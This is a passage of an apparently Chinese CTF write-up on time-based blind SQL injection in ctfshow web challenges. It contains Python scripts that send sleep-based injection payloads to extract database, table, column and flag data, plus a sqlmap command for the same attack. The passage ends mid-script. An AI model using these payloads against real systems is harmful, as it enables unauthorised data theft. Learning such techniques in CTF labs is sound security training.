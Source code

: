 ```cobol
        # print(payload1)
        # print(payload1)
        data = {
            'ip':payload1,
            'debug':0
        }
        start_time=time.time()
        re = requests.post(url=url,data=data)
        end_time=time.time()
        subtime=end_time-start_time
        # print(subtime)
        if subtime > 1.8:
            low=mid+1
        else:
            high=mid
        mid=(low+high)//2
        if(chr(mid)==" "):
            break
    flag+=chr(mid)
    print(flag)
 
 
```



### SQLMAP

这里有没有人和我有一样的困惑 我都可以sqlmap绕waf 了这种简单的题目 我不是秒杀

确实是秒杀 ctfshow过滤sqlmap的方式貌似是请求次数

然后我们这里可以使用sqlmap

但是这我们最好通过r的方式执行

就是将请求包保存到本地 然后执行

```cobol
py3 .\sqlmap.py -r C:\Users\Administrator\Desktop\1.txt --level 3   -v3 --technique=T --dbs
```

然后就可以发现实现了注入 不能通过-u的方式 不然实现不了 我原本以为是工具不智能呢,原来是我不智能........

## web215 字符注入

加了单引号 这里我们也是可以通过sqlmap直接跑的 和上题一模一样

然后脚本的话我们就需要加上注释

```cobol
import time
 
import requests
 
 
url = "http://dde5defa-638a-4d4c-8e6a-d362c3d14e58.challenge.ctf.show/api/"
 
# payload = "1' or if(ascii(substr((select database()),{0},1))>{1},sleep(2),0)-- +"
# payload = "1' or if(ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema=database()),{0},1))>{1},sleep(2),0)-- +"
# payload = "1' or if(ascii(substr((select group_concat(column_name)from information_schema.columns where table_name='ctfshow_flagxc'),{0},1))>{1},sleep(2),0)-- +"
payload = "1' or if(ascii(substr((select group_concat(id,'---',flagaa)from ctfshow_flagxc),{0},1))>{1},sleep(2),0)-- +"
flag = ''
 
for i in range(1,100):
```